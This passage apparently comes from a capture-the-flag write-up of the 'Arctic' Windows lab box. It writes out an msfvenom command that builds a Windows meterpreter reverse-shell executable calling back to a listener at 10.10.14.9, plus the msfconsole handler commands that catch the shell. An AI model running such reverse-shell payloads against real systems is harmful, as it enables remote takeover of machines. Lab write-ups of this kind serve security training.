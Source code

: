 ```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.9 lport=4242 -f exe > shell.exe 
```

![](/Windows/Windows-Easy/Arctic/Screenshots/msvenom.png)

so we set a listner so as to listern for the shell

```sh
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.9
set LPORT 4242
run
```

![](/Windows/Windows-Easy/Arctic/Screenshots/metapreter.png)

now we run this to the session of cold fusion
